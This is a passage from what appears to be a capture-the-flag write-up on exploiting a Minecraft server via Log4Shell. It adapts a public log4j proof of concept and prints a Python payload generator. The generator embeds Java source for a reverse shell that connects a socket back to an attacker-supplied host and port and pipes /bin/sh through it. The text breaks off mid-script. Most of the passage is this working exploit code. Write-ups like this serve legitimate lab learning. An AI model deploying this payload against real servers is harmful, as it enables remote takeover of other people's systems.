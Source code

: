 
Similar to the [[Bizness-Writeup]] 
`/usr/lib/jvm/java-11-openjdk-amd64/bin/java`


Modifying the [PoC](https://github.com/kozmer/log4j-shell-poc), the original does is rogue LDAP server which will respond to the payload printed to stdout that we will run somehow on the MineCraft server.
```python
#!/usr/bin/env python3

import argparse
from colorama import Fore, init
import subprocess
import threading
from pathlib import Path
import os
from http.server import HTTPServer, SimpleHTTPRequestHandler

CUR_FOLDER = Path(__file__).parent.resolve()


def generate_payload(userip: str, lport: int) -> None:
    program = """
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
""" % (userip, lport)

    # writing the exploit to Exploit.java file
```